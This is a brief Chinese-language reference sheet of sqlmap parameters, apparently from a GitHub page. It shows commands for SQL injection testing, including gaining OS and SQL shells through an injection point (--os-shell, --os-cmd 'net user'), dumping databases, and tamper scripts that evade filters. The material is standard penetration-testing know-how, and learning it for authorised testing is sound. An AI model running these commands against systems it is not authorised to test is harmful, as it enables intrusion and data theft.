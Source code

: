 ### Sqlmap参数用法

URL 代表要测试的注入点

#### 1.测试注入点权限
```
sqlmap.py -u "URL" --privileges  //测试所有用户的权限
sqlmap.py -u "URL" --privileges -U sa  //测试sa用户权限
```
#### 2.执行Shell命令
```
sqlmap.py -u "URL" --os-cmd="net user"  //执行 net user 命令
sqlmap.py -u "URL" --os-shell  //系统交互的shell
```
#### 3.获取当前数据库名称
```
sqlmap.py -u "URL" --current-db
```
#### 4.执行了SQL命令
```
sqlmap.py -u "URL" --sql-shell  //返回SQL交互的shell，可以执行SQL语句
sqlmap.py -u "URL" --sql-query="sql"
```
#### 5.POST提交方式
```
sqlmap.py -u "URL" --data "POST参数"
```
#### 6.显示详细的等级
```
sqlmap.py -u "URL" --dbs -v 1
```
-v 参数包含以下7个等级。
```
·0：只显示Python的回溯、错误和关键消息；
·1：显示信息和警告信息；
·2：显示调试信息；
·3：有效载荷注入；
·4：显示HTTP请求；
·5：显示HTTP响应头；
·6：显示HTTP响应页面的内容。
```
#### 7.注入HTTP请求
```
sqlmap.py -r head.txt --dbs  //head.txt 内容为 HTTP 请求
```
head.txt 可以为burpsuit抓包获取到的内容
#### 8.直接连接到数据库
```
sqlmap.py -d"mysql://admin:admin@192.168.1.1:3306/testdb" --dbs
```
#### 9.注入等级
```
sqlmap.py -u "URL" --level 3
```
#### 10.将注入语句插入到指定位置（常用于伪静态注入）
```
sqlmap.py -u "http://www.xxx.com/id/2*.html" --dbs
```
#### 11.使用 Sqlmap 插件
```
sqlmap.py -u "URL" --tamper "space2morehash.py"
```
### Sqlmap Tamper
```
```
